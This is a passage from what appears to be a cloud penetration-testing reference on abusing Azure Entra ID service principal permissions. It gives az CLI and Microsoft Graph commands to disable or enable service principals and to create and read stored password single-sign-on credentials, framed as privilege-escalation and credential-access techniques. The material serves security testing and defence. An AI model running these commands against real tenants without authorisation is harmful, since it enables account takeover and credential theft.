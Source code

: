 {% hint style="danger" %}
After adding a new owner, I tried to remove it but the API responded that the DELETE method wasn't supported, even if it's the method you need to use to delete the owner. So you **can't remove owners nowadays**.
{% endhint %}

### `microsoft.directory/servicePrincipals/disable` and `enable`

These permissions allows to disable and enable service principals. An attacker could use this permission to enable a service principal he could get access to somehow to escalate privileges.

Note that for this technique the attacker will need more permissions in order to take over the enabled service principal.

```bash
bashCopy code# Disable
az ad sp update --id <ServicePrincipalId> --account-enabled false

# Enable
az ad sp update --id <ServicePrincipalId> --account-enabled true
```

#### `microsoft.directory/servicePrincipals/getPasswordSingleSignOnCredentials` & `microsoft.directory/servicePrincipals/managePasswordSingleSignOnCredentials`

These permissions allow to create and get credentials for single sign-on which could allow access to third-party applications.

{% code overflow="wrap" %}
```bash
# Generate SSO creds for a user or a group
spID="<spId>"
user_or_group_id="<id>"
username="<username>"
password="<password>"
az rest --method POST \
  --uri "https://graph.microsoft.com/beta/servicePrincipals/$spID/createPasswordSingleSignOnCredentials" \
  --headers "Content-Type=application/json" \
  --body "{\"id\": \"$user_or_group_id\", \"credentials\": [{\"fieldId\": \"param_username\", \"value\": \"$username\", \"type\": \"username\"}, {\"fieldId\": \"param_password\", \"value\": \"$password\", \"type\": \"password\"}]}"


# Get credentials of a specific credID
credID="<credID>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/servicePrincipals/$credID/getPasswordSingleSignOnCredentials" \
  --headers "Content-Type=application/json" \
  --body "{\"id\": \"$credID\"}"
```
{% endcode %}
